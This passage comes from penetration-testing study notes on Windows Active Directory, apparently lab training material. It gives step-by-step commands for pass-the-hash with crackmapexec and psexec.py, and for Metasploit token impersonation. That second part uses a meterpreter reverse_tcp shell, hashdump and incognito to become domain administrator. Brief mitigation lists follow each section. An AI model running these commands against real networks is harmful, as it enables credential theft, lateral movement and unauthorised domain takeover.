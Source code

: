 ### [Pass the hash attack](https://github.com/encryptedninja/command-center/blob/master/Windows_AD/windows-active-directory.md#pass-the-hash-attack)

- NTLM hashes can be passed around, NTLMv2 hashes **can not** be passed around
- copy second part of the hash then run it in crackmapexec `crackmapexec smb <IP-range> -u <username> -H <paste_hash_here> --local-auth`
- see it's gonna try to pass it around the network and gain access, green plus sign indicates if it succeeded
- `psexec.py "frank castle":@192.168.57.141 -hashes <HASH here, first and second part of hash needed>`

### Mitigations

- Limit account re-use
- Utilize strong passwords (> 14 characters)
- Privilege Access Management (PAC)

### Token Impersonation Attacks

### What are tokens?

- Temporary keys that allows you to access to a system/network without having to provide credentials each time you access a file. Like cookies for computers.
- Two types:
1. Delegate - created for logging in to a machine or using Remote Desktop
2. Impersonate - "non-interactive" such as attaching a network drive or a domain logon script.

### Using Metasploit

- `use /exploit/windows/smb/psexec/`
- `options`
- `set rhosts <target IP>`
- `set smbdomain domain.local`
- `set smbpass password`
- `set smbuser username`
- `show targets`
- `set target 2`
- `set payload windows/x64/meterpreter/reverse_tcp`
- `options` and set the lhost and lport
- `getuid`
- `hashdump`
- we can load incognito `load incognito`
- `help` to see options
- `list tokens`
- `impersonate token marvel\\administrator`
- `whoami` : marvel\administrator

### Mitigation

- Limit User/Group token creation permissions
- Account tiering
- Local Admin restriction
